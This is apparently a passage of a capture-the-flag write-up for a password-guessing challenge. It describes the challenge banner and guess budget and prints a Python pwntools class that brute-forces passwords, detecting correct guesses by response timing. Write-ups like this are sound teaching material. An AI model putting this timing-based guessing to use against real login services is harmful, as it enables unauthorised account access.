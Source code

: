 This means there are `7 * 19 * 120 * 26 = 414960` possible passwords

### Discovery

This challenge was primarily an optimisation challenge, so largely was based off the original source with multiple refactors

Connecting to the challenge with `nc pwdguessr22222.chal.cybears.io 2323` gave the following banner:
```
You need to prove your efficiency at password guessing.
Send a single natural number to get that many IDs, each representing a password to guess.
Send a comma separated list of ID:guess (up to 20 at a time) to get back a comma separated list of results.

You still need to recover 200 passwords. You have 6000 incorrect guesses remaining.
```
Which gives two useful bits of information

1. If we wish to speed up out attempts, we can make up to 20 guesses at a time
2. We need to guess 200 passwords with 6000 incorrect guesses, meaning we must average less than 30 incorrect guesses per user

In the connection, sending a number gives user IDs which are UUIDs, which could then be used to guess

For this challenge, rather than delaying the output for incorrect passwords, it returned either `_` for partially
correct, `1` for fully correct, and `0` for incorrect. This made it much faster.

### Theorising

At first, I was uncertain whether there was a correlation between each segment of the password so I made a script to
bulk solve challenge 1 and record the results in a CSV.

To do this, I refactored my guesser into a class `Guesser`
```python
class Guesser:
    def __init__(self, host=HOST, port=PORT):
        self.r = remote(host, port)
        self.host = host
        self.port = port
        user_line = self.r.recvline().decode()
        self.user = user_line.split(" ")[-1][:-2]
        self.r.recvuntil("Please enter your password: ")
        self.password = None
        self.guesses = 0
        self.incorrect = 0

    def check(self, password):
        log.debug(f"Checking: {password}")
        self.guesses += 1
        before = time.time()
        self.r.sendline(password)
        out = self.r.recv(5)
        if out != b"Sorry":
            if out == b"Conne":
                raise Timeout
            self.password = password
            raise SuccessfulConnection(out.decode())
        after = time.time()
        self.r.recvuntil("Please enter your password: ")
        delta = after - before
        if delta < 0.5:
            self.password = password
            return True
```